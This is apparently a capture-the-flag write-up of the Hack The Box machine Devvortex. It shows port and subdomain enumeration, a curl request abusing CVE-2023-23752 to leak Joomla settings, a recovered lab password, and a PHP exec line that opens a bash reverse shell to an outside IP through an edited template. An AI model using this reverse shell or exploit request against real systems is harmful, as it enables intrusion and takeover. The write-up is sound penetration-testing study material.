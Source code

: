 # Devvortex Write-up

<img src="https://labs.hackthebox.com/storage/avatars/2565d292772abc4a2d774117cf4d36ff.png" width="200" height="200">

---------------------------------------------------------------------------------------------------------------------

## Nmap 

`nmap -sC -sV devvortex.htb`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
    |   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
    |_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)
    |_http-title: DevVortex
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

## Subdomain and directory enumeration 

#### Gobuster

I use wordlist `subdomains-top1million-20000.txt`. You need to install SecLists https://github.com/danielmiessler/SecLists

`gobuster vhost -u http://devvortex.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain -k`

    ===============================================================
    Gobuster v3.6
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:             http://devvortex.htb
    [+] Method:          GET
    [+] Threads:         10
    [+] Wordlist:        /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
    [+] User Agent:      gobuster/3.6
    [+] Timeout:         10s
    [+] Append Domain:   true
    ===============================================================
    Starting gobuster in VHOST enumeration mode
    ===============================================================
    Found: dev.devvortex.htb Status: 200 [Size: 23221]
    Progress: 19966 / 19967 (99.99%)
    ===============================================================
    Finished
    ===============================================================

Directory enumerations for dev subdomain

`gobuster dir -u http://dev.devvortex.htb/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt`

    ===============================================================
    Gobuster v3.6
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://dev.devvortex.htb/
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.6
    [+] Timeout:                 10s
    ===============================================================
    Starting gobuster in directory enumeration mode
    ===============================================================
    /images               (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/images/]
    /home                 (Status: 200) [Size: 23221]
    /media                (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/media/]
    /templates            (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/templates/]
    /modules              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/modules/]
    /plugins              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/plugins/]
    /includes             (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/includes/]
    /language             (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/language/]
    /components           (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/components/]
    /api                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/api/]
    /cache                (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/cache/]
    /libraries            (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/libraries/]
    /tmp                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/tmp/]
    /layouts              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/layouts/]
    /administrator        (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/administrator/]
    /cli                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/cli/]                                                       
    Progress: 87664 / 87665 (100.00%)
    ===============================================================
    Finished
    ===============================================================

![image](https://github.com/zer00d4y/writeups/assets/128820441/7203ec9b-fa4f-449d-b59f-1bdb030b8591)

#### CVE-2023-23752

`curl http://dev.devvortex.htb/api/index.php/v1/config/application?public=true`

![image](https://github.com/zer00d4y/writeups/assets/128820441/b72ce5f2-5931-4c2c-bbc5-3db0dc4b0376)

    lewis:P4ntherg0t1n5r3c0n##

![image](https://github.com/zer00d4y/writeups/assets/128820441/24711425-9456-47ee-b90b-41a1994b6b44)

![image](https://github.com/zer00d4y/writeups/assets/128820441/954a25aa-8759-42d0-9157-c2c8f26c75d5)

Systems -> Extensions

![image](https://github.com/zer00d4y/writeups/assets/128820441/e4cfe7ea-77bf-45b9-bff7-9f0ed98171de)

![image](https://github.com/zer00d4y/writeups/assets/128820441/dba615a3-ce46-420d-bdeb-d5957cc4e5f9)

![image](https://github.com/zer00d4y/writeups/assets/128820441/ff6dcd8d-7218-4369-8e88-586c60bf182f)

`exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.62/4242 0>&1'");`

![image](https://github.com/zer00d4y/writeups/assets/128820441/b4b5d4e4-1b28-4492-93e4-fcda06f5230d)

![image](https://github.com/zer00d4y/writeups/assets/128820441/a5b41640-4ff2-4d0b-8658-124bbd4026ce)

![image](https://github.com/zer00d4y/writeups/assets/128820441/9558c356-b5f9-4af7-bbc6-89b72f4d8b76)

![image](https://github.com/zer00d4y/writeups/assets/128820441/3de4ca82-f25c-46e4-b98a-a4ca7d023879)

CVE-2023-1326

![image](https://github.com/zer00d4y/writeups/assets/128820441/f352aeac-63d5-4dd6-be18-435d9c812e50)

![image](https://github.com/zer00d4y/writeups/assets/128820441/1735f766-9d1a-4245-9982-4071dc159218)
